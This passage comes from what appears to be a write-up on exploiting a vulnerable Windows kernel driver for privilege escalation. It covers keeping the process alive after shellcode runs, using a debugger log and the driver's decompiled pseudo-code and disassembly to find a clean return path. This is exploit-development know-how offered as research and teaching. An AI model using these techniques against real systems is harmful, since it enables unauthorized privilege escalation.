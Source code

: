 ```
Break instruction exception - code 80000003 (first chance)
ffff980b`50b03000 cc              int     3
```

And after resuming execution... BSOD once again.
Next up we must figure out a way to guarantee process continuation, since it'd be pointless to escalate privileges for our process if we're going to crash the OS anyways.

### Process Continuation

To recap, we currently have the ability to execute arbitrary code within the context of the driver.
More specifically, we're inside of a dispatch routine, which we need to properly return from if we want to return to our userland process eventually.
This is the second problem that we need to solve before moving forward with our exploit.

[As per the documentation](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/how-to-complete-an-irp-in-a-dispatch-routine), if we want to complete the IRP and go back to userland, we must set the `Irp->IoStatus`'s fields to zero (`Irp` being the second argument passed to the `DispatchDeviceControl` routine), call `IoCompleteRequest` and return zero from the callback (assuming we want to fake a succes status code).
One way we can achieve this is by returning from our shellcode to the end of the `DispatchDeviceControl` function, whose pseudo-code is:

```C++
[...]
LAB_140085717:
  *(undefined8 *)((longlong)Irp + 0x38) = 0;
  *(undefined4 *)((longlong)Irp + 0x30) = status;
  IofCompleteRequest(Irp,0);
  return status;
```

Whose assembly code reads:

```Assembly
                             LAB_140085717                                   XREF[2]:     14008509f(j), 1400855f1(j)  
       140085717 48 83 65        AND        qword ptr [RBP + 0x38],0x0
                 38 00
       14008571c 33 d2           XOR        EDX,EDX
       14008571e 48 8b cd        MOV        RCX,RBP
       140085721 89 75 30        MOV        dword ptr [RBP + 0x30],ESI
       140085724 ff 15 e6        CALL       qword ptr [->NTOSKRNL.EXE::IofCompleteRequest]   = 0008a576
                 c8 f7 ff
       14008572a 48 8b 5c        MOV        RBX,qword ptr [RSP + local_res8]
                 24 30
       14008572f 8b c6           MOV        EAX,ESI
       140085731 48 8b 74        MOV        RSI,qword ptr [RSP + local_res18]
                 24 40
       140085736 48 8b 6c        MOV        RBP,qword ptr [RSP + local_res10]
                 24 38
       14008573b 48 8b 7c        MOV        RDI,qword ptr [RSP + local_res20]
                 24 48
       140085740 48 83 c4 20     ADD        RSP,0x20
       140085744 41 5e           POP        R14
       140085746 c3              RET

```
